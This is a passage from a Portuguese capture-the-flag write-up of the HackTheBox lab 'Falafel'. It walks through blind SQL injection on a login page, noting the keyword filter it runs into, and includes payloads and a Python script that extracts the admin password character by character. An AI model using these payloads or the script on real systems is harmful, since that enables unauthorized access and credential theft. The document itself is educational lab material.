 Ao tentar por **"admin' and sleep(5)"**, temos um erro diferente: **"Hacking Attempt Detected!"**. UHUUU O FBI NOS DETECTOU LOOOL...Bem, isto parece um tipo de filtro a palavar chaves, porque ao escrever apenas e só a palavra **"sleep"** ou **"union"**, optemos o mesmo erro...

Como não vemos nada, mas sabemos como são de uma maneira geral feitas as bases de dados, podemos tentar descobrir o nome da coluna. Ao escrever **admin' and substring(username,1,1)='a'-- -**, estamos a dizer que, para o usuário _admin_, queremos saber se na coluna de nome _username_, a letra positionada na 1ª posição é igual a _'a'_. E isso já nós sabemos. **_admin_** começa pela letra **_'a'_**.

```txt
admin' and substring(username,1,1)='a'-- -
```

Obtemos a mesma mensagem de erro (Wrong identification : admin), e se pusermos qualquer outra letra, obtemos outro erro (Try again..) por a primeira letra não corresponder. Isso é muito bom sinal...

```txt
admin' and substring(username,2,1)='d'-- -
```

Ao testar para o segundo caractere, obtemos o mesmo resultado, apenas optemos (Wrong identification : admin) quando acertamos na letra **_'d'_**. Mas porquê "Wrong identification : admin"? A query no código php deve estar a fazer uma comparação, entre admin e admin, e nós adicionamos 'and substring(username,1,1)='a'. Só passa para a verificação seguinte se o "admin" existir, **e se** "a sua primeira letra for 'a'". Depois de validar o campo user, fica barrado pela password, pois não a temos... Então, quando acerto na substring, vai me responder "Wrong identification". Posto isso, podemos enumerar todos os campos de todas as tabelas da base de dados desta forma. O único problema é que não temos ideia do nome dessas tabelas nem das suas colunas... Mas também não persisamos saber tudo! Basta-nos a password! Seguindo o mesmo princípio, podemos tentar com o nome de coluna password (por ser comum e normal de ser chamdo assim): **admin' and substring(password,1,1)='0...1...2...3...até...ao...z'-- -**. Manualmente, iria ser possível, mas apenas com 3 litros de café e pausas de 2 em 2 horas! Vamos automatizar isso em python:

```python
import requests
import re
from pwn import log


def sendRequest(code):
    url = "http://falafel.htb/login.php"
    header = {"Cookie": "PHPSESSID=0tpuo9bnh5jo18ibamo44q3ej0"}
    data = {"username": code, "password": "password"}

    res = requests.post(url, headers=header, data=data).text
    res = res.replace("\n", " ").replace("\t", " ")
    regexPattern = r"<br>(.*?)</br>"
    res = re.findall(regexPattern, res)[0].strip()
    return res


def getPassword(username):
    l1 = log.progress(username)
    password = ""
    chars = "0123456789abcdefghijklmnopqrstuvwxyz"
    continueSearching = True
    for position in range(1, 100):
        if continueSearching:
            for char in chars:
                code = f"{username}' and substring(password,{position},1)='{char}'-- -"
                if "Wrong identification" in sendRequest(code):
                    password += char
                    l1.status(password)
                    break
                if char == "z":
                    continueSearching = False

```